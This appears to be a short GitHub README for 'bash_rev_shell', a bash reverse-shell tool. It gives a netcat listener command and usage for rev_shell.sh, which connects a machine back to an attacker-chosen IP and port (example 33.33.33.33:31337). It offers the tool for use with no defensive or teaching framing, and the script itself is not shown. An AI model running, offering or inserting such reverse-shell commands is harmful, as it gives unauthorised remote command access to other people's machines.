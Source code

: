 # bash_rev_shell
Simple reverse shell in bash

# Usage

First run listener on machine where you want to access revers shell.
for example:
```
nc -l -p 8080 -vvv -k
```

```
USAGE: ./rev_shell.sh [-a <ip_address_or_fqdn> -p <port_number>]

Example: ./rev_shell.sh -a 33.33.33.33 -p 31337

Options:
 -a ip addres or hostname
 -p port number
 -h print little help
 ```

